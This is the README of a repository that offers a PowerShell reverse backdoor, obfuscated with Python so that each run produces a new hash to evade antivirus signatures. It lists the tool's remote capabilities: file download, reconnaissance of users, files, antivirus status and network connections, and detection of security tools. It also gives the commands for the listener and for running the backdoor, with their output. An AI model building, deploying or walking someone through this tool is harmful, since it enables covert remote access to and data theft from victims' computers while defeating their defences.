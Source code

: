 # powershell-backdoor
Reverse Backdoor written in Powershell and obfuscated with python. Allowing the backdoor to have a new signature after every run.

## Preview
![preview](preview.PNG)
<br>
## Features
* Download Files from remote system
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Checks for common pentesting software installed

## Setup
Don't change the code inside template.ps1, instead run listen.py
```
PS C:\Users\DrewQ\Desktop> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:02cf166bbe6fdf8f3db4d3e6d04e5e2cf8b98a6b
[*] Starting Backdoor Listener 192.168.0.223:4444
```
No arguments are required, backdoor.ps1 will be dropped in the current working directory.

## Backdoor Execution
Tested on Windows 11, Windows 10 and Kali Linux
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```

## To Do 
* Add Standard Backdoor
* Find Writeable Directories
* Get Windows Update Status


## Output of 5 obfuscations/Runs 
```
sha1:c7a5fa3e56640ce48dcc3e8d972e444d9cdd2306
sha1:b32dab7b26cdf6b9548baea6f3cfe5b8f326ceda
sha1:e49ab36a7ad6b9fc195b4130164a508432f347db
sha1:ba40fa061a93cf2ac5b6f2480f6aab4979bd211b
sha1:f2e43320403fb11573178915b7e1f258e7c1b3f0
```
